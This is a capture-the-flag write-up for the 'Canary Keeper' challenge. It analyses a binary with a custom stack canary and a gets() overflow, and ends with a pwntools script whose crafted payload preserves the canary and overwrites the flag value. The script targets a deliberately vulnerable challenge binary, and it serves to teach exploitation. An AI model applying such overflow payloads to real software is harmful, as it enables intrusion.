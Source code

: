 # Canary Keeper - 100 points
## Description
My friend gave me this executable, but it keeps giving me errors. Can you get the flag?

---
We are given a executable named `provided`.

The name of the challenge is hinting for the canary, a common defense in executables,
so let's check the executable defenses:

```shell
pwn checksec provided
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

It doesn't seem to be built with a canary onto the stack, maybe they implemented
a custom one.

Opening up gdb and looking for functions:
![gdb-functions](gdb-functions.png "executable functions inside gdb")

Disassemnblying main:
![gdb-main](disassembly-main.png "disassemblying main function")

Interesting values that are put onto the stack.
Breakpointing at *main+96 and looking at the stack, we get this:
![gdb-stack](gdb-stack.png "stack after the words are loaded")

So we have a hint of what the program is doing. It loads the word canary into
the stack, and then places the word FLAG.
Our input is being read with a `gets` function which is overflow vulnerable, so
we need to discover the offset which we need to add to hit our "canary", manipulate
it, and then find how to get our flag.
So let's look into the check_canary function.

![gdb-check-canary](disassembly-check-canary.png "disassembly of the check canary function")

And then, the check flag,
![gdb-check-flag](disassembly-check-flag.png "disassembly of the check flag function")


Both functions return 1 if the values compared are equal, because of the `sete`
instruction, as seen here.

![return-values](return-value.png "return values of the check functions")

`sete` sets its argument to `1` if the ZF(zero flag)
is set, and `0` otherwise. And `test eax,eax` sets the ZF if the operands are 
equal.

Now looking at the main function again, and trying to draw the exec flow,

![main execution flow](main-function-return-analysis.png "main function execution flow")


*Take a deep breath.*

In summary: 
- checks for the canary, if `canary == canary`, proceeds to `check_flag`,
if not, exit.
- checks for the flag, if `flag != flag`, proceeds to print the flag,
if not, exit.

So we need to, overflow, keep the canary, change the flag, profit.
exploit code:
```python
#!/usr/bin/env python
from pwn import *
import sys

p = ELF("./provided")

io = p.process()

if "remote" in sys.argv:
    io = remote('challs.bcactf.com', 32101)

payload = b"A"*72
payload += b"\x00"
payload += b"canary"
payload += b"\x00"
payload += b"h4ck3d"
payload += b"\x00"

io.recvuntil(b'Enter a string:')
io.sendline(payload)
print(io.recvline())
```

![flag](flag.png "execution of exploit code, and flag")

